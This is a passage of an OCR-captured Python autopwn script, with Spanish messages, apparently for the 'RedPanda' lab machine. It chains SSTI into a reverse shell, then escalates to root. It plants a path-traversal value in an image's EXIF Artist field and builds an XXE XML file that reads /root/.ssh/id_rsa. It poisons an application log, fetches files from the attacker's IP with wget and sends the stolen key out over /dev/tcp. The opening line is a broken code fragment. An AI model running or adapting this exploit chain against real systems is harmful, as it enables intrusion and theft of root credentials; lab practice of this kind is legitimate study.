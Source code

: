 ```String fullpath = "/opt/panda_search/src/main/resources/static/../../../../../../../../tmp/gato.jpg;``` 
    os.system("wget https://static5.depositphotos.com/1007168/472/i/950/depositphotos_4725473-stock-photo-hot-summer-sun-wearing-shades.jpg -O foto.jpg")
    os.system("exiftool -Artist=\"../../../tmp/pwned\" foto.jpg")

    #Creating malicious xml file
    f = open("pwned_creds.xml","w")
    f.write("<?xml version=\"1.0\" encoding=\"UTF-8\"?>\n")
    f.write("<!DOCTYPE foo [<!ENTITY xxe SYSTEM 'file:///root/.ssh/id_rsa'>]>\n")
    f.write("<credits>\n")
    f.write("\t<author>damian</author>\n")
    f.write("\t<image>\n")
    f.write("\t\t<uri>/../../../../../../../../tmp/foto.jpg</uri>\n")
    f.write("\t\t<views>0</views>\n")
    f.write("\t\t<foo>&xxe;</foo>\n")
    f.write("\t</image>\n")
    f.write("\t<totalviews>0</totalviews>\n")
    f.write("</credits>")
    f.close()

if __name__ == '__main__':
    if len(sys.argv) < 2:
        print ("\nIntroduce tu IP local")

    else:
        ip = sys.argv[1]
        p1 = log.progress("RedPanda autopwn to root user")
        p1.status("SSTI to woodenk user and XXE to root user")
        time.sleep(2)
        p1.status("Explotando SSTI")
        indexcreate()

        try:
            threading.Thread(target=runHTTPServer, args=()).start()
            try:
                threading.Thread(target=makeRequest, args=()).start()
            except Exception as e:
                log.error(str(e))

            shell = listen(443, timeout=20).wait_for_connection()

            if shell.sock is None:
                p1.failure("Connection couldn't be stablished")
                sys.exit(1)
            else:
                p1.status("Shell gained as 'woodenk' user")
                sleep(2)
                p1.status("Pivoting to root")
                createfiles()
                shell.sendline(b"cd /tmp")
                shell.sendline(f"wget http://{ip}/foto.jpg -O foto.jpg > /dev/null 2>&1")
                shell.sendline(f"wget http://{ip}/pwned_creds.xml -O pwned_creds.xml > /dev/null 2>&1")
                shell.sendline(b"echo \"200||10.10.14.12||Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/104.0.0.0 Safari/537.36||/../../../../../../../../tmp/foto.jpg\" > /opt/panda_search/redpanda.log")
                p1.status("Esperando 60 segundos a que se acontezca el XXE")
                sleep(60)
                try:
                    threading.Thread(target=shell.sendline(f"cat pwned_creds.xml > /dev/tcp/{ip}/443"))
                except Exception as e:
                    log.error(str(e))
                
```